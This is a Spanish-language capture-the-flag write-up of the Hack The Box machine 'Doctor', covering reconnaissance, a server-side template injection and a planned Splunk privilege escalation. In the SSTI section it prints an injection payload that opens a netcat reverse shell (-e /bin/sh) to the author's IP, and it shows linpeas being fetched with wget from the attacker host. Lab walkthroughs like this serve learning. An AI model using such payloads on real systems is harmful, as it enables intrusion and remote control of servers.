 ```yaml
---
title: Doctor HTB
author: OxDeed
date: 2020-11-10 15:29:00 -0300
categories: [Blogging, Tutorial]
tags: [splunk,ssti]
math: true
image: /assets/img/sample/doctor.png
---
```


## Resumen

Empezamos con Doctor analizando el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](https://i.ibb.co/PgbzhFX/1.png)
## /etc/hosts
Lo agregamos un nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
## doctors.htb

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](https://i.ibb.co/qrK75gr/4.png)
![Desktop View](https://i.ibb.co/JrMHpL0/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](https://i.ibb.co/d4VnQ1c/7.png)

---

## SSTI

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34)

![Desktop View](https://i.ibb.co/nr8nTH6/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 










